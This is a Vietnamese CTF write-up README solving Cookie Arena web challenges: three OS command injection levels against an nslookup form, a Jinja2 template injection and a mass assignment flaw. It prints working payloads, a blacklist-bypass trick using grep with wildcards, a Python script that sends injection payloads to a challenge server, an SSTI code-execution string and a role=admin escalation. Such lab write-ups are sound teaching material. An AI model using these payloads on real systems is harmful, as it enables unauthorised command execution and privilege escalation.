 <!-- markdownlint-disable MD033 MD041 -->
<p align="center">
<a href="https://battle.cookiearena.org/"><img alt="https://battle.cookiearena.org/" src="images/logo.png" width="100" height="100"></a>
</p>
<!-- markdownlint-enable MD033 -->

# Cookie Arena

Chào mọi người!

Ở repo này, mình sẽ viết lại những cách mà mình đã thực hiện để có thể giải được một số thử thách thuộc mảng Web trên trang [Cookie Arena](https://battle.cookiearena.org/).

Bắt đầu nào! 🔥

## NSLookup (Level 1)

> Challenge này cung cấp một công cụ tra cứu DNS (Domain Name System) đơn giản, cho phép người dùng nhập tên miền (domain) vào ô nhập liệu, và chương trình sẽ trả về kết quả của lệnh nslookup. Đây là một ví dụ cho lỗ hổng OS Command Injection, nơi đầu vào không được kiểm tra đúng cách, cho phép thực thi các lệnh hệ thống ngoài ý muốn.
>
> **Cách hoạt động**:
>
> - Người dùng nhập tên miền vào biểu mẫu (form).
> - Tên miền được xử lý và truyền vào lệnh nslookup thông qua shell_exec().
> - Kết quả được hiển thị lại trong trình duyệt.
>
> **Mục tiêu**: Khai thác lỗ hổng Command Injection để truy cập và đọc nội dung file /flag.txt trên máy chủ.
>
> **Nhiệm vụ**:
>
> - Tìm cách chèn lệnh độc hại thông qua trường nhập domain.
> - Kích hoạt thực thi lệnh tùy ý trên máy chủ để trích xuất nội dung file flag.txt.

Mô tả của thử thách cũng đã rất rõ ràng, đây là một trang web được viết bằng PHP dính lỗ hổng OS Command Injection.

![image](images/nslookup-level-1/image-1.png)

Chúng ta có thể thấy, dữ liệu đầu vào qua tham số `domain` lấy từ URL không được xử lý mà được truyền thẳng vào hàm `shell_exec()`, cho phép chúng ta thực thi lệnh hệ thống tuỳ ý.

Do `domain` truyền vào phía sau lệnh `nslookup` nên chúng ta sẽ kết hợp sử dụng dấu `;` để thực thi một loạt các lệnh.

Nhập vào payload `; ls /`, chúng ta xác định được có file `flag.txt` nằm tại `/`.

![image](images/nslookup-level-1/image-2.png)

Để đọc flag, chúng ta dùng payload `; cat /flag.txt`.

![image](images/nslookup-level-1/image-3.png)

## NSLookup (Level 2)

> Challenge này cung cấp một công cụ tra cứu DNS (Domain Name System) đơn giản, cho phép người dùng nhập tên miền (domain) vào ô nhập liệu, và chương trình sẽ trả về kết quả của lệnh nslookup. Đây là một ví dụ cho lỗ hổng OS Command Injection, nơi đầu vào không được kiểm tra đúng cách, cho phép thực thi các lệnh hệ thống ngoài ý muốn.
>
> **Cách hoạt động**:
>
> Người dùng nhập tên miền vào biểu mẫu (form).
> Tên miền được xử lý và truyền vào lệnh nslookup thông qua shell_exec().
> Kết quả được hiển thị lại trong trình duyệt.
>
> **Mục tiêu**: Khai thác lỗ hổng Command Injection để truy cập và đọc nội dung file /flag.txt trên máy chủ.
>
> **Nhiệm vụ**:
>
> Tìm cách chèn lệnh độc hại thông qua trường nhập domain.
> Kích hoạt thực thi lệnh tùy ý trên máy chủ để trích xuất nội dung file flag.txt.

Đến với level 2 này, lập trình viên đã đưa giá trị của tham số `domain` vào trong cặp dấu nháy `''`.

![image](images/nslookup-level-2/image-1.png)

Như vậy, chúng ta cần phải escape khỏi cặp dấu đó mới có thể thực thi được lệnh tuỳ ý.

Chúng ta có thể sử dụng payload ngắn gọn như `';cat /f*;'` để lấy flag. Ở payload này sử dụng wildcard `*` để khớp với tất cả các ký tự, nó rất hữu ích trong những trường hợp mà chúng ta không biết tên file.

![image](images/nslookup-level-2/image-2.png)

## NSLookup (Level 3)

> Tất cả các lệnh đọc file 'cat', 'head', 'tail', 'less', 'strings', 'nl', "ls", "*", "curl", "wget" đều bị chặn và không tồn tại trên hệ thống
>
> - Flag: /flagXXXX.txt
> - Flag Format: CHH{XXX}

Ở level 3 này, tác giả đã thêm vào blacklist để làm khó chúng ta hơn. Tuy nhiên, blacklist chứa rất ít từ và ký tự nên cũng không quá khó để chúng ta bypass thành công.

![image](images/nslookup-level-3/image-1.png)

Ngoài dấu `*` đại diện cho nhiều ký tự thì chúng ta còn có dấu `?` để đại diện cho 1 ký tự. Và chúng ta sẽ kết hợp dấu `?` này với một lệnh siêu hữu ích để đọc được file, đó chính là `grep`.

Vậy, chúng ta có thể truyền payload sau vào tham số `domain` để lấy về flag.

```bash
'; grep "[a-zA-Z]" /flag?????.txt;'
```

![image](images/nslookup-level-3/image-2.png)

Ngoài ra còn có một số cách khác nữa, ví dụ như sử dụng lệnh `find` để tìm được tên file flag, sau đó mới đọc flag.

Mình có viết đoạn script Python sau.

```python
import requests
import re

URL = "http://103.97.125.56:32428/index.php"

proxy = {
    "http": "http://127.0.0.1:8080"
}

search_filename_payload = "'; find / -type f -maxdepth 1 2>/dev/null;'"
read_flag_payload = "'; grep \"[a-zA-Z]\" %s;'"


def search_filename():
    data = {
        "domain": search_filename_payload
    }

    r = requests.post(url=URL, data=data)
    filename = re.search(r"/flag\w{5}.txt", r.text).group(0)

    return filename


def read_flag(filename):
    data = {
        "domain": read_flag_payload % filename
    }

    r = requests.post(url=URL, data=data)
    flag = re.search(r"CHH{\w+}", r.text).group(0)

    print(flag)


if __name__ == "__main__":
    filename = search_filename()
    read_flag(filename)

```

## Jinja2 VCard Generator

> Trang web cho phép bạn tạo và tải về VCard miễn phí. Hãy khai thác lỗ hổng Server Side Template Injection để đọc nội dung file `/flag.txt`

Bên dưới là giao diện của trang web khi chúng ta truy cập:

![image](images/jinja2-vcard-generator/image-1.png)

Tên của thử thách cùng với phần mô tả cũng đã nói cho chúng ta biết là cần khai thác Jinja2 SSTI để lấy flag.

Bên dưới là POST request khi chúng ta nhập đầy đủ các trường thông tin và nhấn "Create".

![image](images/jinja2-vcard-generator/image-2.png)

Sau khi thử lần lượt payload `{{7*7}}` ở các trường, chúng ta sẽ xác định được tại tham số `phone` dính SSTI:

![image](images/jinja2-vcard-generator/image-3.png)

Vậy, chúng ta ta có thể truyền payload cơ bản bên dưới vào tham số `phone` để đọc thành công flag.

```text
{{lipsum.__globals__.os.popen('cat /flag.txt').read()}}
```

![image](images/jinja2-vcard-generator/image-4.png)

## Mass Assignment Profile

> Sử dụng tài khoản `alice` và mật khẩu `alice` để truy cập vào hệ thống quản lý hồ sơ. Mỗi tài khoản chứa các thông tin cơ bản như email, username, email, điện thoại, địa chỉ. Mỗi người chỉ được phép thay đổi các thông tin cơ bản này.
>
> Trên máy chủ có file Flag nằm ở `/flag.txt` và có nội dung `CHH{XXX}`. File này chỉ được hiển thị với người dùng có vai trò `admin`
>
> Mục tiêu của bạn? Tìm cách để xem được nội dung này

Truy cập trang web, chúng ta thấy một giao diện đăng nhập:

![image](images/mass-assignment-profile/image-1.png)

Sau khi đăng nhập với tài khoản `alice:alice`, chúng ta được chuyển tới `profile.php`. Có thể thấy chúng ta đang không phải là `admin` nên không thể xem flag:

![image](images/mass-assignment-profile/image-2.png)

Chúng ta thử nhấn "Update" để cập nhật thông tin người dùng này.

Dưới đây là POST request để cập nhật.

![image](images/mass-assignment-profile/image-3.png)

Theo tên thử thách, chúng ta hiểu rằng trang web dính lỗ hổng [Mass Assignment](https://learn.snyk.io/lesson/mass-assignment/), cho phép thêm tham số không như ý định của lập trình viên vào request.

Vậy chúng ta có thể thêm `&role=admin` vào để lấy flag thành công.

![image](images/mass-assignment-profile/image-4.png)
